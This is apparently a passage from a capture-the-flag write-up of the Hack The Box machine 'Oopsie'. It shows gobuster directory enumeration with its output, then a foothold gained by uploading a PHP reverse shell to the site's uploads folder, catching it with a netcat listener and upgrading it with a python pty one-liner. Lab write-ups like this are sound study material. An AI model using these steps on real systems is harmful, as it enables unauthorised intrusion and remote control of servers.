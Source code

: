 ```bash
gobuster dir --url http://$IP/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php 
```

results
```
``===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.15.4/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/27 06:27:21 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.129.15.4/images/]
/index.php            (Status: 200) [Size: 10932]                               
/themes               (Status: 301) [Size: 311] [--> http://10.129.15.4/themes/]
/uploads              (Status: 301) [Size: 312] [--> http://10.129.15.4/uploads/]
/css                  (Status: 301) [Size: 308] [--> http://10.129.15.4/css/]    
/js                   (Status: 301) [Size: 307] [--> http://10.129.15.4/js/]     
/fonts                (Status: 301) [Size: 310] [--> http://10.129.15.4/fonts/]
```

---
#### Continue Foothold
---
Upload file /home/kali/OSCP/HackTheBox/StatingPoint/Oopsie/webshells-master/php-reverse-shell.php  to uploads Tab

Establish netcat listener
```bash
nc -lvnp 1234
```

create url
```bash
echo http://$IP/uploads/php-reverse-shell.php | copy
```

Navigate to url in browser.

Netcat Connection and reverse shell. Improve shell with command
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---
## Lateral Movement
---
After some search we can find some interesting php files under /var/www/html/cdn-  
cgi/login directory.
